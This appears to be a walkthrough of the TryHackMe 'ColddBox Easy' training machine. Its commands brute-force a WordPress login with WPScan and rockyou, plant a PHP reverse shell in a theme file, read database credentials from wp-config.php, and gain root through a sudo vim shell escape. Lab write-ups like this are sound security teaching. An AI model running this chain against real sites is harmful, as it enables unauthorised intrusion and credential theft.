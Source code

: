 # ColddBox Easy Walkthrough

- **Room Link**: [TryHackMe ColddBox](https://tryhackme.com/r/room/colddboxeasy)
## 1. Connect to the VPN
To begin, connect to the TryHackMe VPN:
```
sudo openvpn vpnfile.ovpn
```

## 2. Nmap Scan
Run an initial Nmap scan to discover open ports and services:
```
nmap -sC -sV <TARGET_IP>
```
The site appears to be running WordPress based on the scan results.

## 3. Username Enumeration with WPScan
Enumerate WordPress usernames using WPScan:
```
wpscan --url <TARGET_IP> --enumerate u
```
From this, we discover some usernames, including the key one: `c0ldd`.

## 4. Password Brute Force with WPScan
Next, brute force the password for the `c0ldd` user using a common wordlist (`rockyou.txt`):
```
wpscan --url <TARGET_IP> --usernames c0ldd --passwords /usr/share/dirb/wordlists/rockyou.txt
```
This reveals the login credentials:
- **Username**: `c0ldd`
- **Password**: `9876543210`
## 5. Logging into WordPress Admin
Using the discovered credentials, log in to the WordPress admin panel at:
```
http://<TARGET_IP>/wp-admin
```

## 6. Inserting a Reverse Shell via WordPress
Navigate to `Appearance > Editor > header.php` and add a reverse shell payload. I used the [PentestMonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell). Customize it with your IP and port.

Run a listener using Netcat:
```
nc -nlvp 1337
```
Afterward, visit the site to trigger the reverse shell.

## 7. Spawn a Stable Shell
Once you have a reverse shell, stabilize it using Python:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Then, press `Ctrl-Z` to background the shell and run the following to set the terminal properly:
```
stty raw -echo
fg
```

## 8. Retrieve Credentials from wp-config.php
While exploring the file system, check the `wp-config.php` file. It contains the database credentials:
```
define('DB_USER', 'c0ldd'); 
define('DB_PASSWORD', 'cybersecurity');
```

## 9. Gain User Access
Using the credentials found, switch to the `c0ldd` user:
```
su c0ldd
```
Now, you can retrieve the first flag:
```
cat /home/c0ldd/user.txt
```

## 10. Privilege Escalation to Root
To find ways to escalate privileges, check the `sudo` permissions:
```
sudo -l
```
You will see the following commands can be run as root:
- `/usr/bin/vim`
- `/bin/chmod`
- `/usr/bin/ftp`
Based on the [GTFOBins](https://gtfobins.github.io/) exploit suggestions, use `vim` to escalate:
```
sudo vim -c ':!/bin/sh'
```

## 11. Capture the Root Flag

Finally, with root access, retrieve the root flag:
```
cat /root/root.txt
```
